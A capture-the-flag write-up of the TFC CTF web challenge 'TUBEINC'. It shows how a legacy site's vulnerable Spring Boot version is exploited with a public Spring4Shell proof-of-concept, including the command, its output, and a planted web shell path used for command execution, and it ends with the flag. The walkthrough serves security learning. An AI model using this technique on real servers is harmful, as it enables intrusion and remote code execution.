 # TFC CTF

## WEB

### TUBEINC

**Difficulty:** Hard

**Statement:** Oook! That's a hard one! I just want to buy some tubes, but I think that the main site is disabled... What now?

***

For this challenge, the website has nothing interesting except the information in the footer :

```html
<footer>
  <p>For the complete functionality of the page add the following entries to your DNS configuration and use tube.com:PORT to connect to the platform.<br>
    34.65.33.171 tube.com<br>
    34.65.33.171 legacy.tube.com<br>
    DO NOT USE THIS IN PRODUCTION!</p>
</footer>
```

I add on my local machine in the file `/etc/hosts` the following entries:

```
34.65.33.171	tube.com
34.65.33.171	legacy.tube.com
```

Now, the website with the domain name legacy.tube.com seems interesting :

![image](https://user-images.githubusercontent.com/49941629/182037436-639186e7-a638-4cc0-b40f-2637e6d2af1f.png)

We can see in the HTML source code the following comment:

```html
  <!--
    Important!
    Due to the recent discovery of a major vulnerability of the used framework, this platform is now deprecated (more information at /info).
    It remains available only for backward compatibility reasons.

    DO NOT USE THIS PLATFORM IN PRODUCTION!
  -->
```

So I go to the URL `http://legacy.tube.com:49445/info`:

![image](https://user-images.githubusercontent.com/49941629/182037490-2cca9d0f-939c-4da0-9c58-e87d665dc438.png)

This page tells us that the spring-boot version is compromised.

After some research, we find a git repo to get a webshell (exploit spring4shell) : https://github.com/reznok/Spring4Shell-POC

POC of exploit :

```
python exploit.py --url "http://legacy.tube.com:49445"                                                                                                                                   ──(dim.,juil.31)─┘
[*] Resetting Log Variables.
[*] Response code: 200
[*] Modifying Log Configurations
[*] Response code: 200
[*] Response Code: 200
[*] Resetting Log Variables.
[*] Response code: 200
[+] Exploit completed
[+] Check your target for a shell
[+] File: shell.jsp
[+] Shell should be at: http://legacy.tube.com:49445/shell.jsp?cmd=id
```

By going to the given URL, we can perform RCE :

![image](https://user-images.githubusercontent.com/49941629/182037791-df957ea2-84b7-4732-9dd2-3b2e2e07b6ba.png)

A `ls` then a `cat` allows us to get the flag :

![image](https://user-images.githubusercontent.com/49941629/182037881-c4fb19b0-fd86-48f7-a8e0-2e6411a434ff.png)
![image](https://user-images.githubusercontent.com/49941629/182037904-554c31d7-111b-44dd-ad48-eb796c0b0589.png)

Flag : `TFCCTF{F*_$pr1nG!_I_m_m0R3_0f_4_w1nt3r_p3r$0n_aNyw4y!}`
